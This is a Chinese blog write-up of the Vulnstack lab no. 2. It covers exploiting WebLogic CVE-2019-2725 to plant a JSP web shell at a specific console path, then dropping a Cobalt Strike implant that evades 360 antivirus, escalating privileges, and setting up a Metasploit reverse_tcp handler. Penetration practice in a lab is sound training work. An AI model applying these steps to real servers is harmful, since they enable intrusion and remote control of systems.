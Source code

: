 ```yaml
---
title: vulnstack内网靶场(二)
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-10-16 16:32:04
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-876112.png
---
```

这次就不写保姆级教程了，太累了。
老实说这些靶场其实学不到什么技术，只是用来练习使用各种工具。
靶场链接：http://vulnstack.qiyuanxuetang.net/vuln/detail/3/

## 环境搭建
网络拓扑图

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606213851.png)

网卡

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606213827.png)

kali：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606214434.png)

WEB、PC：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606214514.png)

DC：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606214537.png)

若Web密码错误的，在快照管理器里面选择转到1.3即可。
手动开启Web服务，依次管理员执行账号为administrator，密码为1qaz@WSX。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606214625.png)

打开web服务，需要管理员权限

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211015204358.png)

ping一下：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606214829.png)

搭建完成。

## 外网渗透

nmap收集一波信息，扫到了7001，实习的时候研究过weblogic，所以直接访问后台。

http://192.168.111.80:7001/console/login/LoginForm.jsp

WebLogic 10.3.6.0，康康工作时候的记录：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211015210034.png)

cve-2019-2725

先连接冰蝎，说到这不得不吐槽一下java，冰蝎和burp的java环境要求不一样导致要换来换去。

所以改用现成工具：https://kfi.re/220.html

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016145917.png)

weblogic上传木马路径选择：https://www.cnblogs.com/sstfy/p/10350915.html

\Oracle\Middleware\wlserver_10.3\server\lib\consoleapp\webapp\framework\skins\wlsconsole\images\shell.jsp

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016151233.png)

访问 http://192.168.111.80:7001/console/framework/skins/wlsconsole/images/shell.jsp

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016151656.png)

## 拿到CS的shell

利用冰蝎上传cs马

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016161107.png)

虽然开了360，但是似乎并没有拦到我。
看到网上很多文章都是被拦截和绕过的，懒得整了

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016161325.png)

用cs自带的提权直接成功

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016162544.png)

接下来用cs给msf派生一个shell。

## 派生一个msf的shell（非必要）

这一步不是必须的，毕竟cs更适合打windows，只是记录一下技巧。

1、msf配置监听

	msf > use exploit/multi/handler 
	msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
	msf exploit(handler) > set lhost 192.168.135.128
	msf exploit(handler) > set lport 9999
	msf exploit(handler) > exploit

然后cs创建个新的监听器

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016193448.png)

右键想要派生的shell，点击spawn，选择刚刚创建的listener即可。但是我这里试了几次都没出的来，可能是环境问题。

问题不大，反正这里知道怎么派生即可。

## 内网渗透

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211016194629.png)

看了看后面的操作和一差不多，就不搞了。有空看看。

https://www.i4k.xyz/article/weixin_45605352/119898843



